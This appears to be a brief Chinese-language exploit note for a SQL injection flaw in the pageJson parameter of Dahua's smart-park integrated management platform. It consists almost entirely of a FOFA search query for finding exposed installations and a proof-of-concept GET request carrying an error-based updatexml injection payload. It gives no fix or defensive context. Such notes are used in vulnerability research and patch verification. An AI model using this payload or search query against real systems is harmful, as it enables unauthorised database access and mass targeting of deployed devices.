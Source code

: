 ## 大华智慧园区综合管理平台pageJson存在SQL注入漏洞


## fofa
```
app="dahua-智慧园区综合管理平台"
```

## poc
```
GET /portal/services/carQuery/getFaceCapture/searchJson/%7B%7D/pageJson/%7B%22orderBy%22:%221%20and%201=updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--%22%7D/extend/%7B%7D HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```
